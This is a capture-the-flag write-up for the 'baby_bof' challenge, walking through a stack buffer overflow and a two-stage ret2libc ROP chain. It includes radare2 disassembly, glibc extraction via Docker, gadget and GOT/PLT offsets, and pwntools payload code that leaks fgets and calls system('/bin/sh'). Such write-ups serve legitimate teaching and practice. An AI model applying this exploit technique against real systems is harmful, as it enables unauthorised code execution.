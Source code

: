 # Baby bof

In this challenge you are given a binary, `baby_bof` and a dockerfile, and you are required to find the flag, presumably through `system('/bin/sh')`.

Running the binary, you get the following output, with the input being `asdf`:
```
$ ./baby_bof
plz don't rop me
asdf
i don't think this will work
```
So, opening up the binary in Radare2 and running the `i` command:
```
[0x004005f2]> i
fd       3
file     baby_bof
size     0x20d8
humansz  8.2K
mode     r-x
format   elf64
iorw     false
block    0x100
type     EXEC (Executable file)
arch     x86
baddr    0x400000
binsz    6549
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
We see that this binary has no stack canary and isn't a PIE. So, this is a candidate for a stack buffer overflow.

Coming back to r2, we look in the disassembly of `main` and see that it runs `vuln`.
`vuln` is just a basic buffer overflow vulnerability: it gets `0x100` bytes into a `0x10` byte buffer with `fgets`.
```
┌ 59: sym.vuln ();
│           ; var char *s @ rbp-0xa
│           0x004005b7      55             push rbp
│           0x004005b8      4889e5         mov rbp, rsp
│           0x004005bb      4883ec10       sub rsp, 0x10
│           0x004005bf      488d3dde0000.  lea rdi, str.plz_dont_rop_me    ; 0x4006a4 ; "plz don't rop me" ; const char *s
│           0x004005c6      e8d5feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)
│           0x004005cb      488b156e0a20.  mov rdx, qword [obj.stdin]    ; obj.__TMC_END__
│                                                                      ; [0x601040:8]=0 ; FILE *stream
│           0x004005d2      488d45f6       lea rax, [s]
│           0x004005d6      be00010000     mov esi, 0x100              ; 256 ; int size
│           0x004005db      4889c7         mov rdi, rax                ; char *s
│           0x004005de      e8ddfeffff     call sym.imp.fgets          ;[3] ; char *fgets(char *s, int size, FILE *stream)
│           0x004005e3      488d3dcb0000.  lea rdi, str.i_dont_think_this_will_work    ; 0x4006b5 ; "i don't think this will work" ; const char *s
│           0x004005ea      e8b1feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)
│           0x004005ef      90             nop
│           0x004005f0      c9             leave
└           0x004005f1      c3             ret
```

So, what is our goal? Preferably, `/bin/sh`. How can we do that relatively easily, with a ROP chain and no pre-existing code? Ret2libc.

That's where the `Dockerfile` comes in. Looking in the dockerfile, you see it pulls a certain version of Ubuntu.
Except if Ubuntu 20.04 has updated its glibc during the CTF, the glibc installed in this dockerfile should be the exact same build as the one on the remote system.

So, to get the glibc:
```bash
mkdir tmp && cd $_
cp ../Dockerfile .
docker build .
docker images | head -2 # copy the image's ID, in my case it's b9513f2c6b0d
docker image save b9513f2c6b0d > img.tar
tar xf img.tar
for f in `ls */layer.tar`; do
	tar xf $f
done
cp `find -name libc.so.6` ..
```

Now we have the glibc, lets find some offsets. What do we need offsets for, though?

## First chain

Thinking ahead, we should get the offset for a function in the GOT that has already been called before the exploit runs. Lets pick `fgets()`.

So, to find `fgets()` in `libc.so.6`, we open it up in Radare2, run the `aaaa` command to analyse the binary, and then run the command `s sym.fgets`.
This leaves us at the address `0x000857b0`, where `0x0` is the base address.
Next, we want the address of `system()`. Through the same process as `fgets()`, we find the offset `0x00055410`.

Finally, we want the string `/bin/sh`. To find this, run the `/ /bin/sh` in Radare2 to get the offset `0x001b75aa`.

Now we have all our offsets, we can start searching for gadgets to construct our ROP chain.

First, we want gadgets to print the address of `fgets()` in glibc so that we can use this to calculate offsets.
So, we need a gadget to `pop rdi`. Using `ropper -f baby_bof --search 'pop rdi'` we get the gadget `pop rdi; ret;` at `0x400683`, which is optimal.

Next, we need a function to call and some arguments to apply.

I've picked the function `puts()`, and will be accessing it via the Procedure Linkage Table. So, we run `s sym.imp.puts` in r2 to get the address `0x4004a0`.
As an argument, we will have the GOT entry of `fgets()`, so that we can leak the libc address.

To find this, just run `s sym..got.plt` in r2, and find the address of `reloc.fgets`, which is `0x601028` in our case.

Finally, we need a return address. Because we want to run another chain after this, we just set this to the start of `vuln`, so `0x4005b8` (not `0x4005b7` because we messed up our base pointer in the previous chain).

So, joining it all together:
```python
from pwn import *

fgets_offset = 0x0857b0
str_bin_sh_offset = 0x1b75aa
system_offset = 0x055410

poprdi = p64(0x400683)
puts_plt = p64(0x4004a0)
fgets_got = p64(0x601028)
vuln = p64(0x4005b8)

payload = (b'\x41'*18) + poprdi + fgets_got + puts_plt + vuln
```
I found the offset of 18 by stepping through the execution in PwnDbg.

Now, when we send this to our server, it sends back the address of `fgets` in glibc.

Now, from that we can calculate our absolute addresses for `/bin/sh` and `system()` in glibc.

## Second chain

This chain just uses our calculated libc addresses to pop a shell:
```python
...
recvd = # get received address and convert it to an integer
base = recvd - fgets_offset

str_bin_sh = p64(base + str_bin_sh_offset)
system = p64(base + system_offset)

payload = (b'\x41'*18) + poprdi + str_bin_sh + system
```

The final script is in [sol.py](sol.py).
